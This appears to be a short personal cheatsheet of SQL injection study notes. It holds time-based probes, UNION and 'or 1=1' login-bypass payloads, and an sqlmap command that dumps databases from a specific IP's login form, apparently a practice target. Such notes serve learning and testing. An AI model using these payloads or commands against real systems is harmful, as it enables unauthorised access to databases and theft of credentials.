 
# SQL    injection 
```sql 
--check if injectable
' or sleep(15) and 1=1#
' or sleep(15)#
' union select sleep(15),null#
```
[Site Unreachable](https://www.w3schools.com/sql/sql_injection.asp)
```sql
SELECT password FROM admins WHERE username='admin' UNION SELECT '123' AS password# 
--AS password not needed, cuz password specified be4

admin' UNION SELECT '123' AS password#
--in sql, if SELECT CONSTANT AS password means
--populate the value 

--password field:
1234' or 1=1--

``` 
sqlmap is a beast!  
```bash 
sqlmap -u http://34.74.105.127/239c7507f5/login --method POST --data "username=FUZZ&password=" -p username --dbs --dbms mysql --regexp "invalid password" --level 2 --dump --random-agent 
sqlmap -r request.txt -p username --dbs ... (like above)  

-p : vary parameter   
--dump: save results  
--level: levels of tests to perform
``` 

# bug bounty journey
--- 
# Refererences 




2023 01 17 22:06
#cheatsheet   [[hacking]] [[javascript]]  [[networking]] 